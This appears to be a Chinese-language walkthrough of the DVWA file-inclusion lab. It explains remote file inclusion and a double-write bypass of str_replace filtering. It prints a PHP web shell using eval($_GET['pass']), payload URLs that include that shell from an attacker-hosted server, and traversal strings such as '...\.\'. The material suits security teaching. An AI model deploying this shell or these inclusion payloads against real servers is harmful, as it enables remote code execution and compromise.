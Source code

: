 - 远程文件包含
当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致远程代码执行。

代码文件shell.php
```php
<?php
echo phpinfo();
eval($_GET['pass']);
?>
```
构造远程url，http://127.0.0.1/dvwa/vulnerabilities/fi/page=http://恶意ip/shell.php 这里的shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。

需要修改php.ini系统配置allow_url_include=On。
可以在kali虚拟机中开启Apache2服务
```
service apache2 start
cd /var/www/html/
vim shell.php

写入
<?php
echo "welcome test"
?>
保存退出即可。
```
然后访问链接示例：http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=http://192.168.29.135/shell.php 。



## 0x02 Medium

#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 
```
比Low级别多了http:// 和https:// 的过滤以及../ 和.."过滤(严重怀疑源码编写有误，应该是"..\\"，这样才能过滤..\)。但还是可以双写绕过。

使用str_replace函数是极其不安全的，因为可以使用双写绕过替换规则。

例如：
page =hthttp://tp://ip/phpinfo.txt 时，str_replace函数会将http:// 删除，于是page=http://ip/phpinfo.txt ，成功执行远程命令。
http://ip/dvwa/vulnerabilities/fi/page=...\.\...\.\php.ini 使用...\.\，也就是双写的..\，这样就可以绕过..\过滤了。

#### 解题思路
利用双写绕过和远程文件包含漏洞。
